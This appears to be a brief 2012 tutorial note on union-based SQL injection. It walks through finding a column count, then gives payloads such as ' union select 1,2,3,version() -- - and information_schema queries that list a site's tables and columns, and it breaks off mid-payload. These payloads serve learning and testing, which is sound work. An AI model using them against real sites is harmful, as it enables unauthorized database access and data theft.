 ```yaml
---
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: ["sql", "sql", "injection"]
---
```


<p>
```
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
```


1. FIND NUMBER OF COLUMNS
	"order by" trick - test if you can order by a column number
2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)
	' union select 1,2,3,version() -- -
3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -
  ' union select 1,2,3,column_name from information_schema.columns where table...
</p>
